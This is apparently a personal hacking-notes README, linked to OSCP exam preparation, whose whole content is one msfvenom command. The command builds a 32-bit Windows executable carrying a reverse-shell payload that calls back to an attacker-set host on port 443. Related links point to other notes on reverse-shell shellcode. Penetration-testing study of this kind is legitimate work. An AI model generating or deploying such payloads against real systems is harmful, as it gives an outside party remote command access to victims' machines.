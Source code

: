 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

` zet/20221003150774/README.md `

# Related

- [20221003150527](/zet/20221003150527/README.md) Generate reverse shell shellcode payload
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150775](/zet/20221003150775/README.md) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
